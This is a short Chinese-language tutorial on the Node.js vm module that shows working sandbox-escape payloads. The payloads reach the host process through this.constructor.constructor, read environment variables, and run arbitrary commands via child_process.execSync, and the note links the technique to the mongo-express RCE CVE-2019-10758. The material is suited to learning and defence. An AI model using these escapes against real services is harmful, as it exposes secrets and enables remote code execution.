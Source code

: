## 什么是沙箱

```
node官方文档里提到node的vm模块可以用来做沙箱环境执行代码，对代码的上下文环境做隔离
A common use case is to run the code isn a sandboxed environment. 
The sandboxed code uses a different V8 Context, meaning that it has a different global object than the rest of the code.
```

关于vm的学习:http://www.alloyteam.com/2015/04/xiang-jie-nodejs-di-vm-mo-kuai/

vm是用来实现一个沙箱环境，可以安全的执行不受信任的代码而不会影响到主程序。但是可以通过构造语句来进行逃逸：

逃逸例子：

```
const vm = require("vm");
const env = vm.runInNewContext(`this.constructor.constructor('return this.process.env')()`);
console.log(env);
```

执行之后可以获取到主程序环境中的环境变量

上面例子的代码等价于如下代码：

```
const vm = require('vm');
const sandbox = {};
const script = new vm.Script("this.constructor.constructor('return this.process.env')()");
const context = vm.createContext(sandbox);
env = script.runInContext(context);
console.log(env);
```

创建vm环境时，首先要初始化一个对象 sandbox，这个对象就是vm中脚本执行时的全局环境context，vm 脚本中全局 this 指向的就是这个对象。

因为`this.constructor.constructor`返回的是一个`Function constructor`，所以可以利用Function对象构造一个函数并执行。(此时Function对象的上下文环境是处于主程序中的) 这里构造的函数内的语句是`return this.process.env`，结果是返回了主程序的环境变量。

配合`chile_process.exec()`就可以执行任意命令了：

```
const vm = require("vm");
const env = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('whoami').toString()`);
console.log(env);
```

最近的mongo-express RCE(CVE-2019-10758)漏洞就是配合vm沙箱逃逸来利用的。

具体分析可参考：[CVE-2019-10758:mongo-expressRCE复现分析](https://xz.aliyun.com/t/7056)
